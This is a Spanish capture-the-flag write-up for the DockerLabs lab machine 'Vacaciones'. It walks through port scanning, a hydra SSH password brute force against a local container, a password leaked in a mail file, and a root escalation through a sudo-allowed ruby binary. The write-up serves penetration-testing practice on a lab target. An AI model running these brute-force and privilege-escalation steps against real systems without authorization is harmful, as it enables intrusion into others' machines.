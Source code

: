 #Vacacciones DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos con nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 22:08 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds

```
Accedemos a la web y vemos una página web en blanco:

![Captura de pantalla 2024-05-14 221852](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/3d24462b-04c5-47ac-a9dd-8fbb2ffad74a)

Nos metemos a ver el codigo y vemos dos posibles usuarios "camilo" y "juan":

![Captura de pantalla 2024-05-14 221917](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/1c1ead82-09cc-430f-8a62-ea8e21e6c9c7)

Creamos un archivo .txt con estos dos usuarios:
(Camilo es el usuario con el que hacer el ataque de fuerza bruta ponerlo el primero para que sea más rápido)

```shell
└─$ nano users.txt
```

![Captura de pantalla 2024-05-14 224207](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/c6797580-33ad-49c4-998a-0ee01d6fea2f)

Procedemos al ataque de fuerza bruta con hydra:

```shell
└─$ hydra -L /home/kali/Desktop/Machines/users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 22:35:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 22:36:05
```
Accedemos via ssh:

```shell
└─$ ssh camilo@172.17.0.2
camilo@172.17.0.2's password: 
$ 
```

Probamos un sudo -l pero vemos que no funciona:

```shell
$ sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on d3c3148a6872.
```

Probamos a buscar binarios con permisos SUID pero no hay nada explotable:

```shell
camilo@d3c3148a6872:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/sudo
/bin/mount
/bin/umount
/bin/su

```

Viajamos entre directorios para ver que podemos encontrar vamos hasta "/home" y si hacemos "ls" vemos un direcorio llamado "var" entramos y encontramos otro llamado "mail" dentro hay otro que se llama "camilo"  y dentro encontramos un archivo "mail.txt" hacemos un "cat" y esto es lo que vemos:

```shell
camilo@d3c3148a6872:/var/mail/camilo$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

```

Ahora accedemos a la maquina con el usuario "root" y la contraseña "2k84dicb":

```shell
└─$ ssh root@172.17.0.2
root@172.17.0.2's password: 
Permission denied, please try again.
```

Lo probamos y vemos que el usuario no es root, ahora lo vamos a probar con el usuario "juan":

```shell
└─$ ssh juan@172.17.0.2
juan@172.17.0.2's password: 
$ 

```

Esta vez si funciona.
Ejecutamos un "sudo -l" para ver si podemos escarlar privilegios desde aqui:

```shell
$ sudo -l
Matching Defaults entries for juan on d3c3148a6872:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on d3c3148a6872:
    (ALL) NOPASSWD: /usr/bin/ruby

```

Vemos que se puede ejecutar el binario "/usr/bin/ruby" sin contraseña:
Entramos a "https://gtfobins.github.io/gtfobins/ruby/" y pegamos el codigo en la terminal:

```shell
$ sudo ruby -e 'exec "/bin/sh"'

```

```shell
# whoami
root
# 
```
